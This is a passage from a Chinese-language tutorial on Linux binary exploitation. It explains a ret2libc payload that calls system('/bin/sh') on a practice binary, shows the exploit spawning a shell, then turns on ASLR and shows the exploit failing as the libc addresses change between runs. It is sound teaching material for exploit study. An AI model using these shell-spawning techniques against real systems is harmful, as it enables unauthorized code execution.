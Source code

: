 要注意的是`system()后面`跟的是执行完system函数后要`返回地址`，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。下面我们测试一下exp：

``` bash
$ python level2_exp.py 
[+] Starting local process './level2': pid 5659
[*] Switching to interactive mode
$ whoami
buffer
```

OK。测试成功。


### 0x03 ROP– Bypass DEP and ASLR 通过ROP绕过DEP和ASLR防护

接下来我们`打开ASLR`保护。

``` bash
sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space
```

现在我们再回头测试一下level2的exp，发现已经不好用了。

``` bash
$ python level2_exp.py 
[+] Starting local process './level2': pid 5731
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ whoami
[*] Process './level2' stopped with exit code -11 (SIGSEGV) (pid 5731)
[*] Got EOF while sending in interactive
```

如果你通过`sudo cat /proc/[pid]/maps`或者`ldd`查看，你会发现level2的`libc.so`地址每次都是变化的。

``` bash
cat /proc/[第1次执行的level2的pid]/maps
f7d63000-f7f13000 r-xp 00000000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
f7f13000-f7f15000 r--p 001af000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
f7f15000-f7f16000 rw-p 001b1000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so

cat /proc/[第2次执行的level2的pid]/maps
f7d66000-f7f16000 r-xp 00000000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
f7f16000-f7f18000 r--p 001af000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
f7f18000-f7f19000 rw-p 001b1000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so

cat /proc/[第3次执行的level2的pid]/maps
f7d4f000-f7eff000 r-xp 00000000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
f7eff000-f7f01000 r--p 001af000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
f7f01000-f7f02000 rw-p 001b1000 08:01 404316                             /lib/i386-linux-gnu/libc-2.23.so
```
